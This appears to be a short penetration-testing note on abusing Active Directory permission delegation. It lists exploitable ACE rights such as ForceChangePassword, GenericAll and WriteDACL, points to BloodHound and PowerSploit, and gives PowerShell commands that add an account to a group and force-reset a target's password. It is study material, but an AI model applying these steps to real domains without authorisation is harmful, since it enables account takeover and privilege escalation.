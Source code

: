 
## Permission Delegation
- Superusers delegates some privileged actions to other users
-  AD allows administrators to configure Access Control Entries (ACEs) that populates Discretionary Access Control Lists (DACLs)
- Read [Bloodhound documentation](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#) for exploit techniques
- Examples: 
	- ForceChangePassword
	- AddMembers
	- GenericAll
	- GenericWrite
	- WriteOwner
	- WriteDACL
	- AllExtendedRights
- Two ways to interact with AD:  [AD-RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) PowerShell cmdlets or [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)

```powershell
# Add new member to AD group
Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"

# Check group members
Get-ADGroupMember -Identity "IT Support"

# Force change the password of an account
$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password

# Use gpu update to initiate the password synchronization
gpupdate /force
```

## Kerberos Delegation
- 